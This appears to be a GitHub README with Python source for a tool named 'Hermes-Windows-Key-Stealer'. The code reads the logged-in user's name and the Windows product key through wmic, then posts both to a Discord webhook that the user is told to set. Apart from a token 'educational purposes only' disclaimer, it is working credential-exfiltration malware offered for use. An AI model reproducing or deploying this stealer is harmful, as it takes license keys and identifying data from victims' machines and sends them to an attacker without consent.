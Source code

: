 # Hermes-Windows-Key-Stealer

Simple Windows Key Stealer that uses discord webhooks to send the windows key. Replace the webhook in the code


Use for educational purposes only, im not responsible for shitdef winkey():
    NAME = os.getenv("UserName")
    KEY = subprocess.check_output('wmic path softwarelicensingservice get OA3xOriginalProductKey').decode().split('\n')[1].strip()
    KEY_TYPE = subprocess.check_output('wmic os get Caption').decode().split('\n')[1].strip()
    if KEY == '':
        KEY = 'WINKEY : NOT AVAIL.'
    else:
        pass   
    embed = Embed(
        title=f'WINDOWS KEY :',
        description=f'NAME > {NAME}\nTYPE > {KEY_TYPE}\nKEY > {KEY}',
        color=0x2f3136
        )
    embed.set_thumbnail('https://wallpaperaccess.com/full/1129133.jpg')
    winkeysteal = Webhook(winkey_hook)
    winkeysteal.username = 'gotcha! winkey'
    winkeysteal.avatar_url = 'https://cdn.discordapp.com/attachments/739948762792984590/791347256103796796/1129133.png'
    winkeysteal.send(embed=embed)
